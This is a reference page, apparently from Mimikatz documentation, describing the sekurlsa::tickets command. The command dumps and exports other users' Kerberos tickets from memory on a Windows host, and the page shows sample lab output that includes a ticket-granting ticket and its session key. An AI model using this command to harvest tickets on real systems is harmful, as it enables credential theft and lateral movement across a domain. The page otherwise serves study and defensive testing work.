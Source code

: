 # tickets

`sekurlsa::tickets` lists Kerberos tickets belonging to all authenticated users on the target server/workstation. Unlike [`kerberos::list`](../process/list.md), sekurlsa uses memory reading and is not subject to key export restrictions. Sekurlsa can also access tickets of others sessions (users). It has the following command line argument:

* `/export`: tickets are exported in `.kirbi` files. They start with user's LUID and group number (0 = TGS, 1 = client ticket(?) and 2 = TGT). The tickets are saved in the current directory.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427

         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 10/17/2021 4:22:01 AM ; 10/17/2021 2:22:01 PM ; 10/24/2021 4:22:01 AM
           Service Name (02) : krbtgt ; HACKLAB.LOCAL ; @ HACKLAB.LOCAL
           Target Name  (02) : krbtgt ; hacklab.local ; @ HACKLAB.LOCAL
           Client Name  (01) : MediaAdmin$ ; @ HACKLAB.LOCAL ( hacklab.local )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             1351322f734539c08a78792f642fc4fd4ff8aea1fe3b4a0edf83778b5ed878e9
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```
